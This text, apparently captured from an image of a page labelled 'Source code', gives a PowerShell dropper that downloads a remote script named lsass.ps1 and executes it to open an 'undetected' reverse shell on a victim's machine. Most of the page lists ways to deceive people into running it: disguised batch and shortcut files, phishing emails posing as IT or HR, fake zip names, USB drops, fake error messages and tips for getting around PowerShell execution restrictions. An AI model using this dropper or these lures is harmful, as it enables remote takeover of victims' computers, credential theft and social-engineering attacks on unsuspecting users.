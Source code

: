 By runnning the fowlling dropper on the victim machine you can obtain a reverse shell that remains undetected!

$wc = New-Object System.Net.WebClient
$code = $wc.DownloadString("http://10.0.0.21/lsass.ps1")
Invoke-Expression $code 

Note - update the web address in the $code variable, and in the script itself. 

Here are a few ways you can have someone run the dropper:

📄 Batch File Wrapper

Wrap the PowerShell dropper in a .bat file and name it something like OpenMe.bat, ActivateLicense.bat, or FixErrors.bat.

🔁 Rename as a Shortcut File (.lnk)

Use a shortcut icon that looks like a folder or document, but the shortcut runs PowerShell silently.

📧 Email Attachment or Link

Send an email pretending to be IT, HR, or customer support:
“Run this tool to fix an issue with your account”

📦 Zip File Disguise

Place the .bat or .ps1 inside a .zip with names like Invoice_Tool.zip, GamePatch.zip, or Resume_Viewer.zip.

💾 USB Drop Attack

Leave a USB drive labeled "Photos", "Payroll Info", etc., with an autorun.bat or enticing file.

📝 Fake Error Message + Instructions

Social engineer the user into copy/pasting a PowerShell command into their terminal (e.g., from a fake webpage or chat support).

🖱️ Right-Click Instructions

Provide instructions like "Right click the file and choose 'Run with PowerShell'" to bypass .ps1 execution restrictions.
